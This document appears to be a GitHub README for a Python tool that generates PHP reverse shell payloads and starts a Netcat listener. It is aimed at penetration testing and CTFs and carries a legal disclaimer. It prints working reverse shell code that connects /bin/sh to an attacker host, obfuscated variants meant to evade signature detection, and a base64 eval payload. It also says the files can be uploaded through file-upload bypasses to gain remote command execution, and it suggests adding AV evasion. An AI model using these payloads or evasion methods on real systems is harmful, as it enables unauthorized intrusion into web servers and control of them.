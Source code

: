 # `reverse_shell_gen.py` – PHP Reverse Shell Generator

> **For authorized security testing and educational use only.**  
> Always obtain explicit written permission before deploying reverse shells on any system.

---

## 📌 Overview

`reverse_shell_gen.py` is a lightweight, command-line Python tool designed to **generate customizable PHP reverse shell payloads**, optionally **obfuscate** them, save them with **multiple file extensions**, and **automatically launch a Netcat listener**. It is particularly useful in penetration testing, red team engagements, and Capture-The-Flag (CTF) challenges where PHP-based web shells are needed.

---

## 🛠️ Features

- **Dynamic payload generation** with user-defined attacker IP and port.
- **Multiple output extensions**: `.php`, `.phtml`, `.php3`, `.php4`, `.php5`, `.php7`, `.inc`.
- **Obfuscation options**:
  - `none`: Plain, readable PHP.
  - `basic`: Randomized variable names.
  - `base64`: Encoded payload executed via `eval(base64_decode(...))`.
- **Auto listener**: Launches `nc -nvlp <port>` after payload generation.
- **Modular design**: Easy to extend with new obfuscation or payload types.

---

## 📦 Requirements

- Python 3.6+
- Netcat (`nc`) installed (for `--listen` functionality)
- Standard library only (no external dependencies)

---

## 🚀 Usage

### Basic Syntax
```bash
python3 reverse_shell_gen.py --ip <ATTACKER_IP> [OPTIONS]
```

### Examples

#### 1. Generate a basic PHP reverse shell
```bash
python3 reverse_shell_gen.py --ip 192.168.1.10
```
> Saves `shell.php` with default port `2001`.

#### 2. Custom IP, port, filename, and auto-listener
```bash
python3 reverse_shell_gen.py --ip 10.0.0.5 --port 4444 --output rev --listen
```
> Saves `rev.php` and starts `nc -nvlp 4444`.

#### 3. Generate multiple obfuscated variants
```bash
python3 reverse_shell_gen.py --ip 172.30.97.88 --port 8080 \
  --ext php phtml php5 \
  --obfuscate base64 \
  --output webshell
```
> Creates:
> - `webshell.php`
> - `webshell.phtml`
> - `webshell.php5`  
> All encoded in Base64.

#### 4. Use basic obfuscation (random variable names)
```bash
python3 reverse_shell_gen.py --ip 127.0.0.1 --port 9001 --obfuscate basic
```

---

## ⚙️ Command-Line Arguments

| Argument | Type | Default | Description |
|--------|------|--------|-------------|
| `--ip` | string | **required** | Your attacker machine’s IP address (e.g., `192.168.45.123`) |
| `--port` | integer | `2001` | Listening port for the reverse shell |
| `--output` | string | `shell` | Base filename (extension added automatically) |
| `--ext` | list | `["php"]` | One or more PHP-compatible extensions (choices: `php`, `phtml`, `php3`, `php4`, `php5`, `php7`, `inc`) |
| `--obfuscate` | choice | `none` | Obfuscation method: `none`, `basic`, or `base64` |
| `--listen` | flag | disabled | Automatically start a Netcat listener on the specified port |

> 💡 **Tip**: Combine `--listen` with `--port` to streamline your attack workflow.

---

## 🔐 Obfuscation Methods

### 1. `none` (Default)
Generates clean, readable PHP:
```php
<?php
$ip = '192.168.1.10';
$port = 2001;
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>
```

### 2. `basic`
Uses randomly generated variable names to evade basic signature detection:
```php
<?php
$aBcDeFgH = '192.168.1.10';
$iJkLmNoP = 2001;
$qRsTuVwX = fsockopen($aBcDeFgH, $iJkLmNoP);
$yZabCdeF = proc_open('/bin/sh', array(0 => $qRsTuVwX, 1 => $qRsTuVwX, 2 => $qRsTuVwX), $pipes);
?>
```

### 3. `base64`
Encodes the entire payload in Base64 and executes it via `eval`:
```php
<?php eval(base64_decode('PD9waHAKJGlwID0gJzE5Mi4xNjguMS4xMCc7CiRwb3J0ID0gMjAwMTsKJHNvY2sgPSBmc29ja29wZW4oJGlwLCAkcG9ydCk7CiRwcm9jID0gcHJvY19vcGVuKCcvYmluL3NoJywgYXJyYXkoMCA9PiAkc29jaywgMSA9PiAkc29jaywgMiA9PiAkc29jayksICRwaXBlcyk7Cj8+')); ?>
```

> ⚠️ Note: Base64 obfuscation may still be flagged by modern WAFs or EDRs that decode and inspect payloads.

---

## 🧪 Listener Behavior

When `--listen` is used:
- The script runs: `nc -nvlp <port>`
- If `nc` is not installed, it prints an error and exits gracefully.
- Press `Ctrl+C` to stop the listener.

> 🔍 Ensure your firewall allows inbound connections on the chosen port.

---

## 📁 Output Files

All payloads are saved in the **current working directory**. Example outputs:
- `shell.php`
- `rev.phtml`
- `webshell.php5`

These files can be uploaded to vulnerable web applications (e.g., via file upload bypasses) to gain remote command execution.

---

## ⚠️ Legal & Ethical Notice

This tool is intended **exclusively** for:
- Authorized penetration testing
- Security research
- Educational labs and CTF competitions

**Never use this tool against systems you do not own or lack explicit written permission to test.** Unauthorized access violates laws such as the Computer Fraud and Abuse Act (CFAA) and similar regulations worldwide.

---

## 🧩 Extending the Tool

You can enhance this script by:
- Adding more obfuscation layers (e.g., `chr()`, string reversal, gzip)
- Supporting other payload types (e.g., Python, Bash, PowerShell)
- Integrating with HTTP servers for quick payload delivery
- Adding AV evasion techniques (for red team use within legal boundaries)

---

## 📜 License

This script is provided **as-is** with no warranty. Use responsibly and ethically.

> Developed with ❤️ for the infosec community.
